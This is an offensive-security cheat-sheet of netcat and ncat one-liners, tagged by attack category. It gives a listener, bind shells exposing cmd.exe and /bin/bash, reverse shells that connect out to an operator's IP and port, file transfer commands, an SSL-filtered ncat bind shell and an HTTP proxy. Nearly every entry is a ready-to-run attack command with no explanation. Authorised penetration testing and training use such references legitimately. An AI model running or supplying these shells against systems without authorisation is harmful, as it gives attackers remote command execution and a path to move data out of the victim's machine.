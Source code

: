 # netcat

% nc, netcat

#plateform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 
## nc setup listener
```
nc -nlvp <lport>
```

## nc bind shell windows
#plateform/windows 
```
nc -nlvp <port> -e cmd.exe
```

## nc bind shell linux
```
nc -nlvp <port> -e /bin/bash
```

## nc reverse shell windows
#plateform/windows  #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e cmd.exe
```

## nc reverse shell linux
#cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e /bin/bash
```

## nc transfert file - receiver
#cat/ATTACK/FILE_TRANSFERT 
```
nc -nlvp <port> > <incomming_file>
```

## nc transfert file - sender
#cat/ATTACK/FILE_TRANSFERT 
```
nc -nv <ip> <port> < <file_to_send>
```

# ncat

% ncat

## ncat bind shell ssl filtered
#cat/ATTACK/LISTEN-SERVE 
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## ncat bind shell ssl connection
#cat/ATTACK/LISTEN-SERVE 
```
ncat -v <ip> <port> --ssl
```

## ncat HTTP WEB proxy
#cat/ATTACK/LISTEN-SERVE 
```
ncat --listen --proxy-type http <port>
```

